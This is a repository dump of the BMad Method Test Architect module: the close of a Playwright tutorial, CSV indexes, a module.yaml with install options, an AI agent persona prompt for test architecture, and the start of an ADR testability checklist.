  });
});
```

TEA also creates:

- **`tests/README.md`** - How to run tests, project conventions
- **Definition of Done summary** - What makes a test "good"

### With Playwright Utils (Optional Enhancement)

If you have `tea_use_playwright_utils: true` in your config, TEA generates tests using production-ready utilities:

**Vanilla Playwright:**

```typescript
test('should mark todo as complete', async ({ page, request }) => {
  // Manual API call
  const response = await request.post('/api/todos', {
    data: { title: 'Complete tutorial' },
  });
  const todo = await response.json();

  await page.goto('/');
  await page.locator(`.todo-list li:has-text("${todo.title}") .toggle`).click();
  await expect(page.locator('.todo-list li')).toHaveClass(/completed/);
});
```

**With Playwright Utils:**

```typescript
import { test } from '@seontechnologies/playwright-utils/api-request/fixtures';
import { expect } from '@playwright/test';

test('should mark todo as complete', async ({ page, apiRequest }) => {
  // Typed API call with cleaner syntax
  const { status, body: todo } = await apiRequest({
    method: 'POST',
    path: '/api/todos',
    body: { title: 'Complete tutorial' },
  });

  expect(status).toBe(201);
  await page.goto('/');
  await page.locator(`.todo-list li:has-text("${todo.title}") .toggle`).click();
  await expect(page.locator('.todo-list li')).toHaveClass(/completed/);
});
```

**Benefits:**

- Type-safe API responses (`{ status, body }`)
- Automatic retry for 5xx errors
- Built-in schema validation
- Cleaner, more maintainable code

See [Integrate Playwright Utils](/brain/knowledge/docs_legacy/how-to/customization/integrate-playwright-utils.md) to enable this.

## Step 4: Run and Validate (5 minutes)

Time to see your tests in action!

### Run the Tests

```bash
npx playwright test
```

You should see:

```
Running 3 tests using 1 worker

  ✓ tests/e2e/todomvc.spec.ts:7:3 › should create a new todo (2s)
  ✓ tests/e2e/todomvc.spec.ts:15:3 › should mark todo as complete (2s)
  ✓ tests/e2e/todomvc.spec.ts:30:3 › should filter todos by status (3s)

  3 passed (7s)
```

All green! Your tests are passing against the existing TodoMVC app.

### View Test Report

```bash
npx playwright show-report
```

Opens a beautiful HTML report showing:

- Test execution timeline
- Screenshots (if any failures)
- Trace viewer for debugging

### What Just Happened?

You used **TEA Lite** to:

1. Scaffold a production-ready test framework (`framework`)
2. Create a risk-based test plan (`test-design`)
3. Generate comprehensive tests (`automate`)
4. Run tests against an existing application

All in 30 minutes!

## What You Learned

Congratulations! You've completed the TEA Lite tutorial. You learned:

### Quick Reference

| Command       | Purpose                              |
| ------------- | ------------------------------------ |
| `tea`         | Load the TEA agent                   |
| `framework`   | Scaffold test infrastructure         |
| `test-design` | Risk-based test planning             |
| `automate`    | Generate tests for existing features |

### TEA Principles

- **Risk-based testing** - Depth scales with impact (P0 vs P3)
- **Test design first** - Plan before generating
- **Network-first patterns** - Tests wait for actual responses (no hard waits)
- **Production-ready from day one** - Not toy examples

:::tip[Key Takeaway]
TEA Lite (just `automate`) is perfect for beginners learning TEA fundamentals, testing existing applications, quick test coverage expansion, and teams wanting fast results.
:::

## Understanding ATDD vs Automate

This tutorial used the `automate` workflow to generate tests for **existing features** (tests pass immediately).

**When to use `automate`:**

- Feature already exists
- Want to add test coverage
- Tests should pass on first run

**When to use `atdd` (Acceptance Test-Driven Development):**

- Feature doesn't exist yet (Test-Driven Development workflow)
- Want failing tests BEFORE implementation
- Following red → green → refactor cycle

See [How to Run ATDD](/brain/knowledge/docs_legacy/how-to/workflows/run-atdd.md) for the test-drive development (TDD) approach.

## Next Steps

### Level Up Your TEA Skills

**How-To Guides** (task-oriented):

- [How to Run Test Design](/brain/knowledge/docs_legacy/how-to/workflows/run-test-design.md) - Deep dive into risk assessment
- [How to Run ATDD](/brain/knowledge/docs_legacy/how-to/workflows/run-atdd.md) - Generate failing tests first (TDD)
- [How to Set Up CI Pipeline](/brain/knowledge/docs_legacy/how-to/workflows/setup-ci.md) - Automate test execution
- [How to Review Test Quality](/brain/knowledge/docs_legacy/how-to/workflows/run-test-review.md) - Audit test quality

**Explanation** (understanding-oriented):

- [TEA Overview](/brain/knowledge/docs_legacy/explanation/tea-overview.md) - Complete TEA capabilities
- [Testing as Engineering](/brain/knowledge/docs_legacy/explanation/testing-as-engineering.md) - **Why TEA exists** (problem + solution)
- [Risk-Based Testing](/brain/knowledge/docs_legacy/explanation/risk-based-testing.md) - How risk scoring works

**Reference** (quick lookup):

- [TEA Command Reference](../bmad_repo/commands.md) - All 9 TEA workflows
- [TEA Configuration](configuration.md) - Config options
- [Glossary](../INDEX.md) - TEA terminology

### Try TEA Solo

Ready for standalone usage without full BMad Method? Use TEA Solo:

- Run any TEA workflow independently
- Bring your own requirements
- Use on non-BMad projects

See [TEA Overview](/brain/knowledge/docs_legacy/explanation/tea-overview.md) for engagement models.

### Go Full TEA Integrated

Want the complete quality operating model? Try TEA Integrated with BMad Method:

- Phase 2: Planning with non-functional requirements (NFR) assessment
- Phase 3: Architecture testability review
- Phase 4: Per-epic test design → `atdd` → `automate`
- Release Gate: Coverage traceability and gate decisions

See [BMad Method Documentation](/) for the full workflow.

## Common Questions

- [Why can't my tests find elements?](#why-cant-my-tests-find-elements)
- [How do I fix network timeouts?](#how-do-i-fix-network-timeouts)

### Why can't my tests find elements?

TodoMVC doesn't use test IDs or accessible roles consistently. The selectors in this tutorial use CSS classes that match TodoMVC's actual structure:

```typescript
// TodoMVC uses these CSS classes:
page.locator('.new-todo'); // Input field
page.locator('.todo-list li'); // Todo items
page.locator('.toggle'); // Checkbox

// If testing your own app, prefer accessible selectors:
page.getByRole('textbox');
page.getByRole('listitem');
page.getByRole('checkbox');
```

In production code, use accessible selectors (`getByRole`, `getByLabel`, `getByText`) for better resilience. TodoMVC is used here for learning, not as a selector best practice example.

### How do I fix network timeouts?

Increase timeout in `playwright.config.ts`:

```typescript
use: {
  timeout: 30000, // 30 seconds
}
```

## Getting Help

- **Documentation:** <https://docs.bmad-method.org>
- **GitHub Issues:** <https://github.com/bmad-code-org/bmad-method/issues>
- **Discord:** Join the BMAD community
```

## File: `src/module-help.csv`
```
module,skill,display-name,menu-code,description,action,args,phase,after,before,required,output-location,outputs
Test Architecture Enterprise,bmad-teach-me-testing,Teach Me Testing,TMT,Teach testing fundamentals through 7 sessions (TEA Academy).,,0-learning,,,false,test_artifacts,"progress file|session notes|certificate"
Test Architecture Enterprise,bmad-testarch-test-design,Test Design,TD,Risk-based test planning.,,3-solutioning,,bmad-testarch-framework,false,test_artifacts,test design document
Test Architecture Enterprise,bmad-testarch-framework,Test Framework,TF,Initialize production-ready test framework.,,3-solutioning,bmad-testarch-test-design,bmad-testarch-ci,false,test_artifacts,framework scaffold
Test Architecture Enterprise,bmad-testarch-ci,CI Setup,CI,Configure CI/CD quality pipeline.,,3-solutioning,bmad-testarch-framework,,false,test_artifacts,ci config
Test Architecture Enterprise,bmad-testarch-atdd,ATDD,AT,Generate failing tests (TDD red phase).,,4-implementation,,,false,test_artifacts,atdd tests
Test Architecture Enterprise,bmad-testarch-automate,Test Automation,TA,Expand test coverage.,,4-implementation,bmad-testarch-atdd,,false,test_artifacts,test suite
Test Architecture Enterprise,bmad-testarch-test-review,Test Review,RV,Quality audit (0-100 scoring).,,4-implementation,bmad-testarch-automate,,false,test_artifacts,review report
Test Architecture Enterprise,bmad-testarch-nfr,NFR Assessment,NR,Non-functional requirements assessment.,,4-implementation,bmad-testarch-automate,,false,test_artifacts,nfr report
Test Architecture Enterprise,bmad-testarch-trace,Traceability,TR,Coverage traceability and gate.,,4-implementation,bmad-testarch-test-review,,false,test_artifacts,"traceability matrix|gate decision"
```

## File: `src/module.yaml`
```yaml
code: tea
name: "Test Architect"
header: "Test Architect: quality strategy, automation, and release gates"
subheader: "Risk-based testing workflows for BMad Method/Enterprise with optional Playwright CLI/MCP enhancements"
description: "Master Test Architect for quality strategy, test automation, and release gates"
default_selected: false

# Variables from Core Config inserted automatically by installer:
## user_name
## communication_language
## document_output_language
## output_folder
## project_root

# TEA-specific configuration variables
# IMPORTANT: tea_use_playwright_utils, tea_use_pactjs_utils, tea_pact_mcp, tea_browser_automation,
# tea_execution_mode, tea_capability_probe, test_stack_type, ci_platform,
# and test_framework are ACTIVELY USED in workflows
# Other variables are FUTURE placeholders for Phase 10 enhancements

test_artifacts:
  prompt: "Where should test artifacts be stored? (test plans, coverage reports, quality audits)"
  default: "{output_folder}/test-artifacts"
  result: "{project-root}/{value}"

# ✅ ACTIVELY USED - Playwright Utils integration (referenced in 6 workflows: automate, atdd, framework, test-design, test-review, ci)
# CRITICAL: Must be boolean (true/false) not string - workflows check "if config.tea_use_playwright_utils: true"
tea_use_playwright_utils:
  prompt: "Enable Playwright Utils integration?"
  default: true
  result: "{value}"
  single-select:
    - value: true
      label: "Yes - Use production utilities (Recommended)"
    - value: false
      label: "No - Generate from scratch"

# ✅ ACTIVELY USED - Pact.js Utils integration for contract testing (referenced in workflows: automate, atdd, framework, test-design, test-review, ci)
# CRITICAL: Must be boolean (true/false) not string - workflows check "if config.tea_use_pactjs_utils: true"
tea_use_pactjs_utils:
  prompt: "Enable Pact.js Utils for consumer-driven contract testing?"
  default: false
  result: "{value}"
  single-select:
    - value: true
      label: "Yes - Enable optional contract-testing utilities"
    - value: false
      label: "No - Skip Pact integration"

# ✅ ACTIVELY USED - Pact MCP integration for broker interaction during contract testing
# Controls how TEA interacts with PactFlow/Pact Broker during test generation and review
# CRITICAL: Must be a string value: "mcp" | "none"
tea_pact_mcp:
  prompt: "Enable SmartBear MCP for PactFlow/Pact Broker? Only needed if you already use a broker."
  default: "none"
  result: "{value}"
  single-select:
    - value: "mcp"
      label: "Yes - Enable optional broker integration"
    - value: "none"
      label: "No - No broker/MCP integration"

# ✅ ACTIVELY USED - Browser automation strategy for TEA workflows
# Controls how TEA interacts with live browsers during test generation
# CRITICAL: Must be a string value: "auto" | "cli" | "mcp" | "none"
tea_browser_automation:
  prompt: "How should TEA interact with browsers during test generation?"
  default: "auto"
  result: "{value}"
  single-select:
    - value: "auto"
      label: "Auto - Smart selection (Recommended)"
    - value: "cli"
      label: "CLI only - Playwright CLI (@playwright/cli)"
    - value: "mcp"
      label: "MCP only - Playwright MCP servers"
    - value: "none"
      label: "None - No live browser interaction"

# ✅ ACTIVELY USED - Orchestration strategy for workflow execution
# Controls whether TEA runs orchestration steps sequentially, with subagents, or with agent teams
# CRITICAL: Must be a string value: "auto" | "subagent" | "agent-team" | "sequential"
tea_execution_mode:
  prompt: "How should TEA orchestrate multi-step generation and evaluation?"
  default: "auto"
  result: "{value}"
  single-select:
    - value: "auto"
      label: "Auto - Probe capabilities and pick best mode (Recommended)"
    - value: "subagent"
      label: "Subagent workers - Isolated parallel workers only"
    - value: "agent-team"
      label: "Agent Team - Team/delegate mode when available"
    - value: "sequential"
      label: "Sequential - Deterministic single-threaded execution"

# ✅ ACTIVELY USED - Probe runtime capabilities before selecting execution mode
# When true, TEA checks whether subagent/agent-team execution is actually supported and falls back safely.
tea_capability_probe:
  prompt: "Probe runtime capabilities before selecting execution mode?"
  default: true
  result: "{value}"
  single-select:
    - value: true
      label: "Yes - Probe and fallback automatically (Recommended)"
    - value: false
      label: "No - Honor configured mode strictly"

# ✅ ACTIVELY USED - Stack type detection for multi-framework support
test_stack_type:
  prompt: "What type of project is this?"
  default: "auto"
  result: "{value}"
  single-select:
    - value: "auto"
      label: "Auto-detect from project files (Recommended)"
    - value: "frontend"
      label: "Frontend (Node.js, React, Vue, Angular)"
    - value: "backend"
      label: "Backend (Python, Java, Go, .NET, Rust)"
    - value: "fullstack"
      label: "Full-stack (both frontend and backend)"

# ✅ ACTIVELY USED - CI/CD platform detection
ci_platform:
  prompt: "Which CI/CD platform do you use?"
  default: "auto"
  result: "{value}"
  single-select:
    - value: "auto"
      label: "Auto-detect from repository (Recommended)"
    - value: "github-actions"
      label: "GitHub Actions"
    - value: "gitlab-ci"
      label: "GitLab CI"
    - value: "jenkins"
      label: "Jenkins"
    - value: "azure-devops"
      label: "Azure DevOps Pipelines"
    - value: "harness"
      label: "Harness CI"
    - value: "circle-ci"
      label: "CircleCI"
    - value: "other"
      label: "Other/Custom"

# ✅ ACTIVELY USED - Test framework selection for multi-stack support
test_framework:
  prompt: "Which test framework are you using?"
  default: "auto"
  result: "{value}"
  single-select:
    - value: "auto"
      label: "Auto-detect from project files (Recommended)"
    - value: "playwright"
      label: "Playwright (JavaScript/TypeScript)"
    - value: "cypress"
      label: "Cypress (JavaScript/TypeScript)"
    - value: "jest"
      label: "Jest (JavaScript/TypeScript)"
    - value: "vitest"
      label: "Vitest (JavaScript/TypeScript)"
    - value: "pytest"
      label: "pytest (Python)"
    - value: "junit"
      label: "JUnit (Java/Kotlin)"
    - value: "go-test"
      label: "Go test (Go)"
    - value: "dotnet-test"
      label: "dotnet test (C#/.NET)"
    - value: "rspec"
      label: "RSpec (Ruby)"
    - value: "other"
      label: "Other/Custom"

# ⏭️ FUTURE - Risk threshold (not currently used in test-design workflow, marked for Phase 10)
risk_threshold:
  prompt: "What risk level requires mandatory testing?"
  default: "p1"
  result: "{value}"
  single-select:
    - value: "p0"
      label: "P0 only (Critical systems)"
    - value: "p1"
      label: "P1+ (High & Critical)"
    - value: "p2"
      label: "P2+ (Medium, High & Critical)"
    - value: "p3"
      label: "All (P0-P3)"

# ⏭️ FUTURE - Test output folders (not currently wired into workflows, marked for Phase 10)
# IMPORTANT: test_artifacts already resolves to {project-root}/..., so don't re-prepend {project-root}
test_design_output:
  prompt: "Where should test design documents be stored?"
  default: "test-design"
  result: "{test_artifacts}/{value}"

test_review_output:
  prompt: "Where should test review reports be stored?"
  default: "test-reviews"
  result: "{test_artifacts}/{value}"

trace_output:
  prompt: "Where should traceability reports be stored?"
  default: "traceability"
  result: "{test_artifacts}/{value}"

post-install-notes:
  test_stack_type:
    auto: |
      Stack Auto-Detection:
        TEA will detect your project type from manifest files:
        - Frontend: package.json with react/vue/angular, playwright.config.*, vite.config.*
        - Backend: pyproject.toml, pom.xml, go.mod, *.csproj, Gemfile, Cargo.toml
        - Full-stack: both frontend and backend indicators present
        Existing installations without test_stack_type default to "auto" (detects frontend).
  ci_platform:
    auto: |
      CI Platform Auto-Detection:
        TEA will detect your CI platform from repository files:
        - GitHub Actions: .github/workflows/
        - GitLab CI: .gitlab-ci.yml
        - Jenkins: Jenkinsfile
        - Azure DevOps: azure-pipelines.yml
        - Harness: .harness/
        - CircleCI: .circleci/config.yml
        Existing installations without ci_platform default to "auto".
  tea_browser_automation:
    cli: |
      Playwright CLI Setup:
        npm install -g @playwright/cli@latest
        playwright-cli install --skills    # Run from project root
        Node.js 18+ required.
    mcp: |
      Playwright MCP Setup (two servers):
        1. playwright    — npx @playwright/mcp@latest
        2. playwright-test — npx playwright run-test-mcp-server
        Configure both MCP servers in your IDE settings.
        See: https://github.com/microsoft/playwright-mcp
    auto: |
      Playwright CLI Setup:
        npm install -g @playwright/cli@latest
        playwright-cli install --skills    # Run from project root
        Node.js 18+ required.

      Playwright MCP Setup (two servers):
        1. playwright    — npx @playwright/mcp@latest
        2. playwright-test — npx playwright run-test-mcp-server
        Configure both MCP servers in your IDE settings.
        See: https://github.com/microsoft/playwright-mcp

  tea_execution_mode:
    auto: |
      Execution Mode (Auto):
        TEA probes runtime capabilities at orchestration steps.
        Selection order:
          1. agent-team (if supported)
          2. subagent (if supported)
          3. sequential (fallback)
        This keeps behavior portable across Codex, Claude Code, and other runtimes.
    subagent: |
      Execution Mode (Subagent):
        TEA will prefer isolated subagent workers for parallel orchestration.
        If capability probing is enabled and subagent support is unavailable, TEA falls back safely.
    agent-team: |
      Execution Mode (Agent Team):
        TEA will prefer team/delegation orchestration when runtime supports it.
        If capability probing is enabled and agent-team support is unavailable, TEA falls back safely.
    sequential: |
      Execution Mode (Sequential):
        TEA disables parallel orchestration and runs worker steps one by one.
        Useful for deterministic debugging and constrained environments.

  tea_use_pactjs_utils:
    true: |
      Pact.js Utils Setup:
        npm install -D @seontechnologies/pactjs-utils
        Peer dependency: @pact-foundation/pact >= 16.2.0
          npm install -D @pact-foundation/pact
        For remote flow (with Pact Broker):
          Set PACT_BROKER_BASE_URL and PACT_BROKER_TOKEN as env vars or CI secrets.
          Also set GITHUB_SHA (auto-set by GitHub Actions) and GITHUB_BRANCH (must be defined explicitly: ${{ github.head_ref || github.ref_name }}).
        For local flow (monorepo):
          No broker needed - consumer generates pacts, provider verifies locally.
        Docs: https://seontechnologies.github.io/pactjs-utils/
  tea_pact_mcp:
    mcp: |
      SmartBear MCP Setup (PactFlow integration):
        Install: npm install -g @smartbear/mcp
        Claude Code (global): claude mcp add-json -s user smartbear '{"type":"stdio","command":"npx","args":["-y","@smartbear/mcp@latest"],"env":{"PACT_BROKER_BASE_URL":"https://{tenant}.pactflow.io","PACT_BROKER_TOKEN":"<your-api-token>"}}'
        Required env vars:
          PACT_BROKER_BASE_URL=https://{tenant}.pactflow.io
          PACT_BROKER_TOKEN=<your-api-token>
        Requires: Node.js 20+
        Docs: https://developer.smartbear.com/smartbear-mcp/brain/knowledge/docs_legacy/getting-started

# Directories to create during installation (declarative, no code execution)
directories:
  - "{test_artifacts}"
```

## File: `src/agents/bmad-tea/SKILL.md`
```markdown
---
name: bmad-tea
description: Master Test Architect and Quality Advisor. Use when the user asks to talk to Murat or requests the Test Architect.
---

# Murat

## Overview

This skill provides a Master Test Architect and Quality Advisor specializing in risk-based testing, fixture architecture, ATDD, API testing, backend services, UI automation, CI/CD governance, and scalable quality gates. Act as Murat — data-driven, strong opinions weakly held, speaking in risk calculations and impact assessments.

## Identity

Test architect specializing in risk-based testing, fixture architecture, ATDD, API testing, backend services, UI automation, CI/CD governance, and scalable quality gates. Equally proficient in pure API/service-layer testing (pytest, JUnit, Go test, xUnit, RSpec) as in browser-based E2E testing (Playwright, Cypress), consumer driven contract testing (Pact) and performance/load/chaos testing (k6). Supports GitHub Actions, GitLab CI, Jenkins, Azure DevOps, and Harness CI platforms.

## Communication Style

Blends data with gut instinct. "Strong opinions, weakly held" is their mantra. Speaks in risk calculations and impact assessments.

## Principles

- Risk-based testing - depth scales with impact
- Quality gates backed by data
- Tests mirror usage patterns (API, UI, or both)
- Flakiness is critical technical debt
- Tests first AI implements suite validates
- Calculate risk vs value for every testing decision
- Prefer lower test levels (unit > integration > E2E) when possible
- API tests are first-class citizens, not just UI support

## Critical Actions

- Consult `{project-root}/_bmad/tea/agents/bmad-tea/resources/tea-index.csv` to select knowledge fragments under `knowledge/` and load only the files needed for the current task
- Load the referenced fragment(s) from `{project-root}/_bmad/tea/agents/bmad-tea/resources/knowledge/` before giving recommendations
- Cross-check recommendations with the current official Playwright, Cypress, Pact, k6, pytest, JUnit, Go test, and CI platform documentation

You must fully embody this persona so the user gets the best experience and help they need, therefore its important to remember you must not break character until the users dismisses this persona.

When you are in this persona and the user calls a skill, this persona must carry through and remain active.

## Capabilities

| Code | Description                                                                                                                        | Skill                     |
| ---- | ---------------------------------------------------------------------------------------------------------------------------------- | ------------------------- |
| TMT  | Teach Me Testing: Interactive learning companion - 7 progressive sessions teaching testing fundamentals through advanced practices | bmad-teach-me-testing     |
| TF   | Test Framework: Initialize production-ready test framework architecture                                                            | bmad-testarch-framework   |
| AT   | ATDD: Generate failing acceptance tests plus an implementation checklist before development                                        | bmad-testarch-atdd        |
| TA   | Test Automation: Generate prioritized API/E2E tests, fixtures, and DoD summary for a story or feature                              | bmad-testarch-automate    |
| TD   | Test Design: Risk assessment plus coverage strategy for system or epic scope                                                       | bmad-testarch-test-design |
| TR   | Trace Requirements: Map requirements to tests (Phase 1) and make quality gate decision (Phase 2)                                   | bmad-testarch-trace       |
| NR   | Non-Functional Requirements: Assess NFRs and recommend actions                                                                     | bmad-testarch-nfr         |
| CI   | Continuous Integration: Recommend and Scaffold CI/CD quality pipeline                                                              | bmad-testarch-ci          |
| RV   | Review Tests: Perform a quality check against written tests using comprehensive knowledge base and best practices                  | bmad-testarch-test-review |

## On Activation

1. Load config from `{project-root}/_bmad/tea/config.yaml` and resolve:
   - Use `{user_name}` for greeting
   - Use `{communication_language}` for all communications
   - Use `{document_output_language}` for output documents

2. **Continue with steps below:**
   - **Load project context** — Search for `**/project-context.md`. If found, load as foundational reference for project standards and conventions. If not found, continue without it.
   - **Greet and present capabilities** — Greet `{user_name}` warmly by name, always speaking in `{communication_language}` and applying your persona throughout the session.

3. Remind the user they can invoke the `bmad-help` skill at any time for advice and then present the capabilities table from the Capabilities section above.

   **STOP and WAIT for user input** — Do NOT execute menu items automatically. Accept a capability code, skill name, or fuzzy description match from the Capabilities table.

**CRITICAL Handling:** When user responds with a capability code (e.g., TMT, TF, AT), an exact registered skill name, or a fuzzy description match (e.g., "teach me testing", "continuous integration", "test framework"), invoke the corresponding skill from the Capabilities table. DO NOT invent capabilities on the fly or attempt to map arbitrary numeric inputs to skills.
```

## File: `src/agents/bmad-tea/bmad-skill-manifest.yaml`
```yaml
type: agent
name: bmad-tea
displayName: Murat
title: Master Test Architect and Quality Advisor
icon: "🧪"
capabilities: "risk-based testing, fixture architecture, ATDD, API testing, backend services, UI automation, CI/CD governance, scalable quality gates, consumer-driven contract testing, performance/load/chaos testing"
role: Master Test Architect
identity: "Test architect specializing in risk-based testing, fixture architecture, ATDD, API testing, backend services, UI automation, CI/CD governance, and scalable quality gates. Equally proficient in pure API/service-layer testing (pytest, JUnit, Go test, xUnit, RSpec) as in browser-based E2E testing (Playwright, Cypress), consumer driven contract testing (Pact) and performance/load/chaos testing (k6). Supports GitHub Actions, GitLab CI, Jenkins, Azure DevOps, and Harness CI platforms."
communicationStyle: "Blends data with gut instinct. 'Strong opinions, weakly held' is their mantra. Speaks in risk calculations and impact assessments."
principles: "Risk-based testing - depth scales with impact. Quality gates backed by data. Tests mirror usage patterns (API, UI, or both). Flakiness is critical technical debt. Tests first AI implements suite validates. Calculate risk vs value for every testing decision. Prefer lower test levels (unit > integration > E2E) when possible. API tests are first-class citizens, not just UI support."
module: tea
canonicalId: bmad-tea
webskip: true
hasSidecar: false
```

## File: `src/agents/bmad-tea/resources/tea-index.csv`
```
id,name,description,tags,tier,fragment_file
fixture-architecture,Fixture Architecture,"Composable fixture patterns (pure function → fixture → merge) and reuse rules","fixtures,architecture,playwright,cypress",core,knowledge/fixture-architecture.md
network-first,Network-First Safeguards,"Intercept-before-navigate workflow, HAR capture, deterministic waits, edge mocking","network,stability,playwright,cypress,ui",core,knowledge/network-first.md
data-factories,Data Factories and API Setup,"Factories with overrides, API seeding, cleanup discipline","data,factories,setup,api,backend,seeding",core,knowledge/data-factories.md
component-tdd,Component TDD Loop,"Red→green→refactor workflow, provider isolation, accessibility assertions","component-testing,tdd,ui",extended,knowledge/component-tdd.md
playwright-config,Playwright Config Guardrails,"Environment switching, timeout standards, artifact outputs","playwright,config,env",extended,knowledge/playwright-config.md
ci-burn-in,CI and Burn-In Strategy,"Staged jobs, shard orchestration, burn-in loops, artifact policy","ci,automation,flakiness",extended,knowledge/ci-burn-in.md
selective-testing,Selective Test Execution,"Tag/grep usage, spec filters, diff-based runs, promotion rules","risk-based,selection,strategy",extended,knowledge/selective-testing.md
feature-flags,Feature Flag Governance,"Enum management, targeting helpers, cleanup, release checklists","feature-flags,governance,launchdarkly",specialized,knowledge/feature-flags.md
contract-testing,Contract Testing Essentials,"Pact publishing, provider verification, resilience coverage","contract-testing,pact,api,backend,microservices,service-contract",specialized,knowledge/contract-testing.md
email-auth,Email Authentication Testing,"Magic link extraction, state preservation, caching, negative flows","email-authentication,security,workflow",specialized,knowledge/email-auth.md
error-handling,Error Handling Checks,"Scoped exception handling, retry validation, telemetry logging","resilience,error-handling,stability,api,backend",extended,knowledge/error-handling.md
visual-debugging,Visual Debugging Toolkit,"Trace viewer usage, artifact expectations, accessibility integration","debugging,dx,tooling,ui",specialized,knowledge/visual-debugging.md
risk-governance,Risk Governance,"Scoring matrix, category ownership, gate decision rules","risk,governance,gates",core,knowledge/risk-governance.md
probability-impact,Probability and Impact Scale,"Shared definitions for scoring matrix and gate thresholds","risk,scoring,scale",core,knowledge/probability-impact.md
test-quality,Test Quality Definition of Done,"Execution limits, isolation rules, green criteria","quality,definition-of-done,tests",core,knowledge/test-quality.md
nfr-criteria,NFR Review Criteria,"Security, performance, reliability, maintainability status definitions","nfr,assessment,quality",extended,knowledge/nfr-criteria.md
test-levels,Test Levels Framework,"Guidelines for choosing unit, integration, or end-to-end coverage","testing,levels,selection,api,backend,ui",core,knowledge/test-levels-framework.md
test-priorities,Test Priorities Matrix,"P0–P3 criteria, coverage targets, execution ordering","testing,prioritization,risk",core,knowledge/test-priorities-matrix.md
test-healing-patterns,Test Healing Patterns,"Common failure patterns and automated fixes","healing,debugging,patterns",core,knowledge/test-healing-patterns.md
selector-resilience,Selector Resilience,"Robust selector strategies and debugging techniques","selectors,locators,debugging,ui",core,knowledge/selector-resilience.md
timing-debugging,Timing Debugging,"Race condition identification and deterministic wait fixes","timing,async,debugging",extended,knowledge/timing-debugging.md
overview,Playwright Utils Overview,"Installation, design principles, fixture patterns for API and UI testing","playwright-utils,fixtures,api,backend,ui",core,knowledge/overview.md
api-request,API Request,"Typed HTTP client, schema validation, retry logic, operation-based overload for API and service testing","api,backend,service-testing,api-testing,playwright-utils,openapi,codegen,operation",core,knowledge/api-request.md
network-recorder,Network Recorder,"HAR record/playback, CRUD detection for offline UI testing","network,playwright-utils,ui,har",extended,knowledge/network-recorder.md
auth-session,Auth Session,"Token persistence, multi-user, API and browser authentication","auth,playwright-utils,api,backend,jwt,token",core,knowledge/auth-session.md
intercept-network-call,Intercept Network Call,"Network spy/stub, JSON parsing for UI tests","network,playwright-utils,ui",extended,knowledge/intercept-network-call.md
recurse,Recurse Polling,"Async polling for API responses, background jobs, eventual consistency","polling,playwright-utils,api,backend,async,eventual-consistency",extended,knowledge/recurse.md
log,Log Utility,"Report logging, structured output for API and UI tests","logging,playwright-utils,api,ui",extended,knowledge/log.md
file-utils,File Utilities,"CSV/XLSX/PDF/ZIP validation for API exports and UI downloads","files,playwright-utils,api,backend,ui",extended,knowledge/file-utils.md
burn-in,Burn-in Runner,"Smart test selection, git diff for CI optimization","ci,playwright-utils",extended,knowledge/burn-in.md
network-error-monitor,Network Error Monitor,"HTTP 4xx/5xx detection for UI tests","monitoring,playwright-utils,ui",extended,knowledge/network-error-monitor.md
fixtures-composition,Fixtures Composition,"mergeTests composition patterns for combining utilities","fixtures,playwright-utils",extended,knowledge/fixtures-composition.md
api-testing-patterns,API Testing Patterns,"Pure API test patterns without browser: service testing, microservices, GraphQL","api,backend,service-testing,api-testing,microservices,graphql,no-browser",specialized,knowledge/api-testing-patterns.md
pactjs-utils-overview,Pact.js Utils Overview,"Installation, contract testing flows, utility table (createProviderState, toJsonMap, setJsonContent, setJsonBody)","pactjs-utils,contract-testing,pact,api,backend,microservices",specialized,knowledge/pactjs-utils-overview.md
pactjs-utils-consumer-helpers,Pact.js Utils Consumer Helpers,"createProviderState, toJsonMap, setJsonContent, setJsonBody for consumer-side Pact helpers","pactjs-utils,consumer,contract-testing,pact,api",specialized,knowledge/pactjs-utils-consumer-helpers.md
pactjs-utils-provider-verifier,Pact.js Utils Provider Verifier,"buildVerifierOptions, buildMessageVerifierOptions for provider verification","pactjs-utils,provider,contract-testing,pact,api,backend,ci",specialized,knowledge/pactjs-utils-provider-verifier.md
pactjs-utils-request-filter,Pact.js Utils Request Filter,"createRequestFilter, noOpRequestFilter for auth injection","pactjs-utils,auth,contract-testing,pact",specialized,knowledge/pactjs-utils-request-filter.md
pact-mcp,Pact MCP Server,"SmartBear MCP for PactFlow: generate tests, review, can-i-deploy, provider states","pact,mcp,pactflow,contract-testing,broker",specialized,knowledge/pact-mcp.md
pact-consumer-framework-setup,Pact Consumer CDC Framework Setup,"Directory structure, vitest config, shell scripts, CI workflow, PactV4 patterns for consumer CDC","pactjs-utils,consumer,contract-testing,pact,ci,framework,setup,vitest,shell-scripts",specialized,knowledge/pact-consumer-framework-setup.md
adr-quality-readiness-checklist,ADR Quality Readiness Checklist,"8-category 29-criteria framework for ADR testability and NFR assessment","nfr,testability,adr,quality,assessment,checklist",extended,knowledge/adr-quality-readiness-checklist.md
playwright-cli,Playwright CLI,"Token-efficient CLI for AI coding agents: element refs, sessions, snapshots, browser automation","cli,browser,agent,automation,snapshot",core,knowledge/playwright-cli.md
pact-consumer-di,Pact Consumer DI Pattern,"Dependency injection pattern for Pact consumer tests — call actual source code instead of raw fetch by injecting mock server URL via optional baseUrl in context type","contract-testing,pact,consumer,dependency-injection,api,backend,architecture",extended,knowledge/pact-consumer-di.md
```

## File: `src/agents/bmad-tea/resources/knowledge/adr-quality-readiness-checklist.md`
```markdown
# ADR Quality Readiness Checklist

**Purpose:** Standardized 8-category, 29-criteria framework for evaluating system testability and NFR compliance during architecture review (Phase 3) and NFR assessment.

**When to Use:**

- System-level test design (Phase 3): Identify testability gaps in architecture
- NFR assessment workflow: Structured evaluation with evidence
- Gate decisions: Quantifiable criteria (X/29 met = PASS/CONCERNS/FAIL)

**How to Use:**

1. For each criterion, assess status: ✅ Covered / ⚠️ Gap / ⬜ Not Assessed
2. Document gap description if ⚠️
3. Describe risk if criterion unmet
4. Map to test scenarios (what tests validate this criterion)

---

## 1. Testability & Automation

**Question:** Can we verify this effectively without manual toil?

| #   | Criterion                                                                                                                                  | Risk if Unmet                                  | Typical Test Scenarios (P0-P2)                                                                          |
| --- | ------------------------------------------------------------------------------------------------------------------------------------------ | ---------------------------------------------- | ------------------------------------------------------------------------------------------------------- |
| 1.1 | **Isolation:** Can the service be tested with all downstream dependencies (DBs, APIs, Queues) mocked or stubbed?                           | Flaky tests; inability to test in isolation    | P1: Service runs with mocked DB, P1: Service runs with mocked API, P2: Integration tests with real deps |
| 1.2 | **Headless Interaction:** Is 100% of the business logic accessible via API (REST/gRPC) to bypass the UI for testing?                       | Slow, brittle UI-based automation              | P0: All core logic callable via API, P1: No UI dependency for critical paths                            |
